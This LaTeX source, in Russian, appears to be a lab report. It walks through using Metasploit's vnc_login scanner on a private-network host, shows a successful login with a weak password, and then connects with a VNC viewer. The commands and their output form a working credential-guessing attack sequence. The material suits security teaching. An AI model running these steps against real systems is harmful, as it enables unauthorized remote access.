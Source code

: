 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\begin{enumerate}
	\item подключаемся к консоли metasploit
\begin{lstlisting}
root@kali:~# msfconsole
\end{lstlisting}
\medskip
	
\item Подключаемся к нужному модулю:
\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста и количество потоков для работы
\begin{lstlisting}
msf auxiliary(vnc_login) > set RHOSTS 192.168.1.214
msf auxiliary(vnc_login) > set THREADS 8
\end{lstlisting}
\medskip

\item Запускаем модуль
\begin{lstlisting}
msf auxiliary(vnc_login) > run

[*] 192.168.1.214:5900 - Starting VNC login sweep
[!] No active DB -- Credential data will not be saved!
[!] No active DB -- Credential data will not be saved!
[+] 192.168.1.214:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
\medskip


\item Получаем удаленный доступ, используя vnc клиент и полученный пароль.
\begin{lstlisting}
root@kali:~# xtightvncviewer 192.168.1.214
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
\end{lstlisting}

\begin{figure}[hhh!]
	\begin{center}
		\includegraphics[width=10cm]{img/1}
	\end{center}
	\vspace{-5mm}\caption{Удаленная консоль metasploit в ОС Kali Linux}
\end{figure}
\end{enumerate}
\end{document}
